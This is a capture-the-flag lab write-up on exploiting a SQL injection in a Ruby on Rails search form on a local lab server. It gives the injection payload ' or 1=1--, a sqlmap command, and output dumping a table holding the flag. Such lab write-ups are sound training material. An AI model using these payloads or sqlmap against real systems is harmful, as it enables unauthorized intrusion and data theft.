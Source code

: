 This one presents only a search bar and no other outlinks. The search bar redirects to back to root (/) with a POST requests with params search=<val>. So, this appears to be some dynamic web server. In testing, (looking for a robots.txt file) it presented an error message indicating 'application_controller.rb' has an issue. Some seraching showed that this was a ruby on rails server. Also, it shows that default error messages are not surpressed which makes the search bar seem like a target for SQLi. In testing, yes, it has an SQLi vulnerability which, when triggered, dumps the full query back via the web page.

SQLite3::SQLException: near ")": syntax error: SELECT * FROM reviews WHERE title LIKE '%' or 1=1) --#%'
	
SQLi query will dump all the records:
	* ' or 1=1--

DB is SQLLite 3 as indicated above.

So, used SQL map

```bash
sqlmap -u http://localhost:9001/ --data="search=test" -a
```

And so doing, exfiled a table with the link to the image.

```bash
[19:45:02] [INFO] fetching entries for table 'hidden' in database 'SQLite_masterdb'
[19:45:02] [INFO] fetching number of entries for table 'hidden' in database 'SQLite_masterdb'
[19:45:02] [INFO] retrieved: 1
[19:45:15] [INFO] retrieved: 2_of_spades
[19:51:01] [INFO] retrieved: 1
[19:51:46] [INFO] retrieved: /eGHaMBu2XWvRA5cu/2_of_spades.png
Database: SQLite_masterdb
Table: hidden
[1 entry]
+----+-------------+-----------------------------------+
| id | flag        | link                              |
+----+-------------+-----------------------------------+
| 1  | 2_of_spades | /eGHaMBu2XWvRA5cu/2_of_spades.png |
+----+-------------+-----------------------------------+

[20:09:34] [INFO] table 'SQLite_masterdb.hidden' dumped to CSV file '/root/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/hidden.csv'
[20:09:34] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'

[*] ending @ 20:09:34 /2020-12-06/
```
